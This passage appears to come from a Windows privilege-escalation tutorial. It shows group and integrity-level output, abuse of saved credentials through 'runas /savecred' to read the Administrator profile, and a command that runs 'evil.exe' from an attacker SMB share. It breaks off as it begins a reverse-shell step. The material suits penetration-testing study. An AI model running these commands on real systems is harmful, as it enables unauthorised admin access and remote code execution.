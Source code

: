 ```powershell
Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


<SNIP>
```

We could also try to execute commands as the Administrator user:

```powershell
C:\Users\user>runas /savecred /user:admin "C:\windows\system32\cmd.exe /c dir /b /a /s C:\Users\Administrator > C:\Tools\admin.txt"
Attempting to start C:\windows\system32\cmd.exe /c dir /b /a /s C:\Users\Administrator > C:\Tools\admin.txt as user "desktop-bn\admin" ...

C:\Users\user>type C:\Tools\admin.txt
C:\Users\Administrator\AppData
C:\Users\Administrator\Application Data
```

The following example is calling a remote binary via an SMB share.

```powershell
C:\Users\user>runas /savecred /user:admin "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credentials we can try a executing reverse shell as Administrator:
